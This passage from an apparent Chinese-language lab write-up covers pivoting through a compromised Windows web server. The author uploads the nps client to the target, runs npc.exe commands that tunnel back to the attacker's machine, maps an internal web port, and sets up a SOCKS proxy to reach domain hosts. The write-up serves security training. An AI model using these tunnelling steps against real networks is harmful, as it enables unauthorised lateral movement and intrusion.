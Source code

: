![image-20240103141949718](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240103141949718.png)

##### 3、把nps客户端上传到windows靶机上

但是执行确连接不上

```java
**C:\phpStudy\WWW>** npc.exe -server=127.0.0.1:8024 -vkey=nnogm652lv62mvwb -type=tcp
./npc -server=127.0.0.1:8024 -vkey=nnogm652lv62mvwb -type=tcp
**C:\phpStudy\WWW>** npc.exe -server=192.168.100.14:8024 -vkey=rzxdd22ayokt1rnt -type=tcp
```

```java
kali(攻击机):192.168.236.130 
Windows 7 (web服务器)：192.168.236.132（外网和kali连通）、192.168.52.143（内网ip）
Windows 2008(域控): 192.168.52.138
Win2k3(域管): 192.168.52.141
本机：127.0.0.1 / 192.168.236.1 / 192.168.100.14
```

本来一开始用的是 127 和 192.168.100.14这两个没通，后来想明白了（用那俩地址靶机能访问到？？？) 改了之后直接就通了

npc.exe -server=192.168.236.1:8024 -vkey=nnogm652lv62mvwb -type=tcp

![image-20240103193327879](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240103193327879.png)

![image-20240103193431062](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240103193431062.png)

可以发现我们访问 127.0.0.1:8089 ---->192.168.52.143:80映射了过来

![image-20240103193548753](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240103193548753.png)

那么用socks代理搭配Proxifier软件做一个全局代理

![image-20240103194554290](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240103194554290.png)

![image-20240103194605150](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240103194605150.png)

![image-20240103194620726](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240103194620726.png)

地址也可以改成局域网的地址，这样都能访问到，就不用挂多个代理了

![image-20240103194726750](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240103194726750.png)

成功

![image-20240103194820787](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240103194820787.png)

查看之前fscan的结果发现扫描出了二台主机（138和141 windows版本都扫描出来了）

![image-20240103195130351](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240103195130351.png)

### windows挂代理就是上面，但是我的工具基本都在kali里面（所以能不能直接让kali挂上代理）

```java
#如需修改默认占用端口： 修改 /etc/nps/conf 下的 nps.conf 文件
nps 
nps start
nps stop
//查询端口杀死进程
netstat -ntlp
ps -ef|grep nps
kill -9 进程id
```
